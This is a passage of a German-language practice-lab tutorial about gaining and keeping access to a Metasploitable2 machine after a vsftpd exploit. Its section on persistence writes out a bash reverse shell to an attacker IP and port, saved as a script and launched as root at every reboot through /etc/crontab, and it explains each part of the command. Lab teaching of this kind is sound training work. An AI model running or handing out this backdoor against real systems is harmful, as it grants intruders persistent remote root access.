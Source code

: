 ![Metasploitable2 whoami](/09-practice-labs/ressourcen/pictures/metasploitable2/metasploit-vsftpd10.png)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## 4. Zugriff sichern (Backdoor persistieren)

Du hast jetzt eine Shell, das bedeutet, dass du Zugriff auf die Client-Software hast.
Ziel ist es nun, eine persistente Backdoor zu installieren. Diese ermöglicht es uns, viele Schritte zu überspringen und direkt auf die Maschine zuzugreifen. 

1. Prüfe zuerst den User-Kontext:
```bash
whoami
```
2. Eine einfache Methode: Erzeuge einen Reverse-Shell Bash-Skript im Autostart:
```bash
echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" > /tmp/backdoor.sh
chmod +x /tmp/backdoor.sh
echo "@reboot root /tmp/backdoor.sh" >> /etc/crontab
```

![Backdoor erstellen](/09-practice-labs/ressourcen/pictures/metasploitable2/metasploit-vsftpd11.png)

**Die Befehle aus 2. im Detail**

**Erstellen des Backoor-Skripts:**
`echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" > /tmp/backdoor.sh`
- `echo "..."`: Gibt den Text innerhalb Anführungszeichen in die Konsole aus.
- `bash -i`: startet interaktive Bash-Shell.
- `>& /dev/tcp/192.168.1.100/4444`: Reverse Shell Sitzung mit `bash -i` an eine `TCP`-Verbindung
    - `>`: leitet die Standardausgabe um.
    - `&`: leitet zusätzlich die Standardfehlerausgabe um.
    - `/dev/tcp/`: spezielles Linux-Feature; ermöglicht TCP-Verbindung direkt in der Bash-Shell zu erstellen. Es wird Angreifer-PC `192.168.1.100` auf Port `4444` aufgebaut.
- `0>&1`: Leitet Standardeingabe (`0`) auf Standardausgabe (`1`) um, die bereits an TCP-Verbindung geleitet wird. Dadurch kann Agreifer über Netcat-Sitzung Befehle an Shell senden.
- `> /tmp/backdoor.sh`: leitet gesamte Ausgabe des `echo`-Befehls in neue Datei names `backdoor.sh` im temporären Verzeichnis `/tmp/` um.
